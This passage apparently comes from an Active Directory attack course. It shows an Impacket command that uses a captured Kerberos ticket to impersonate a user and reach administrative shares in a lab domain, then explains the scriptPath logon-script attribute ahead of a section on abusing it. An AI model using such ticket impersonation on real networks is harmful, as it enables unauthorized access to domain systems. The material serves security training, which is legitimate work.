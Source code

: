 The above output shows Gabriel NT Hash. We can use the NT hash or the TGT to impersonate Gabriel as follows:

```shell
KRB5CCNAME=gabriel.ccache smbclient.py -k -no-pass LAB-DC.LAB.LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# shares
ADMIN$
C$
...SNIP...
#

```

**Note:** To use Kerberos and generate a TGT, we need to be able to make a domain name resolution. We can configure our DNS to point to the domain or put the domain name in the `/etc/hosts` file.

## Coming Next

After understanding Shadow Credentials and their implications in Active Directory environments, we will delve into Logon Scripts. These scripts automate various user tasks or configurations upon logging into the domain. We'll discuss how to abuse these mechanisms to execute malicious scripts.


# Logon Scripts

* * *

In Active Directory environments, system administrators use `logon scripts` to automate various user tasks or configurations when logging into the domain, such as mapping and unmapping network drives, auditing and reporting, gathering information, and environment customization. There are two methods for assigning users a `logon script`: the first is by using the `Logon script` field in the `Profile` tab of the user properties dialog, which internally updates the `scriptPath` attribute, while the second is by utilizing a `Group Policy`.

## The scriptPath Attribute

Defined in [MS-ADA3](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ada3/c640630e-23ff-44e7-886f-16df9574039e), the [scriptPath](https://learn.microsoft.com/en-us/windows/win32/adschema/a-scriptpath) attribute (part of the [User-Logon property set](https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-logon)) specifies the path for a user's `logon script`; when setting it via the `Logon script` field in the `Profile` tab of a user's properties dialog in `ADUC`, AD updates `scriptPath` accordingly:

![Logon_Script_Image_1](https://academy.hackthebox.com/storage/modules/255/Logon_Script_Image_1.png)

`scriptPath` supports batch (\*.bat) or command (\*.cmd) files, executable programs (\*.exe), or programs written in any language hosted by the [Windows Script Host automation technology](https://www.rlmueller.net/LogonScriptFAQ.htm#What%20languages%20can%20I%20use%20for%20logon%20scripts), including [VBScript](https://documentation.help/MS-Office-VBScript/VBStoc.htm) and [JScript](https://documentation.help/MS-Office-JScript/). Additionally, [KiXtart](http://www.kixtart.org/), a logon script processor and enhanced batch scripting language can be used. Regardless of the myriad of languages it supports, `scriptPath` does not support PowerShell; however, we can run PowerShell commands from within batch and VBScript files.
